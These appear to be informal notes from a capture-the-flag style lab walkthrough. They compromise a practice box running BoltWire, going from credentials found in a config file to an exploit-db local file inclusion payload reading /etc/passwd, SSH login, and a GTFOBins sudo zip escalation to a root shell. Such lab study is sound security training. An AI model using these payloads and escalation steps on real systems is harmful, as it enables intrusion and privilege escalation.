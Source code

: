 	- port 80
		- public, src, app
		- app has directories >> download yml config file with user/pass
			- bolt::I_love_java  >> save info in notes
	- port 8080
		- dev
			- >> shows bolt app page
- can check google for boltwire exploits or searchploit in kali
```bash
searchploit boltwire 
#XSS is not useful right now, only for attacking users - we are attacking box
>>#local file inclusion is listed > research this
```
- Local File Inclusion (LFI) boltwire: https://www.exploit-db.com/exploits/48411
	- Local file inclusion exploit (also known as LFI) is the process of including files that are already locally present on the server, through the exploitation of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included, and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP, and others.
- follow exploit instructions to try, need to create user then can paste in the query
```http
p=action.search&action=../../../../../../../etc/passwd
```
- boltwire app now shows /etc/passwd/ file: shows the USERS
	- scroll down to identify user: jeanpaul
- back to mount terminal now that we have the user name
```bash
#in /mnt/dev
#using the jeanpaul username to try ssh
ssh -i id_rsa jeanpaul@192.168.138.137 
#for password, we found the I_love_java pass in the yml config, can try it
ls #check
pwd #nothing here
history #heath always does history check
sudo -l #always check sudo -l to see what you can run as sudo without password >> can see that we can run zip
sudo zip #works, how can we abuse this feature to get root without password?

#look at google, gtfobins
```
- gtfobins : https://gtfobins.github.io/
	- >sudo escalation
	- >zip
	-  can paste in jeanpaul terminalm 
```bash
TF=$(mktemp -u) #copy paste first
sudo zip $TF /etc/hosts -T -TT 'sh #' #copy paste 2nd for shell
sudo rm $TF #may not need
```
- we have a shell not with sudo
```bash
id #check who are are
ls #check files
cat flag.txt #found flag
```
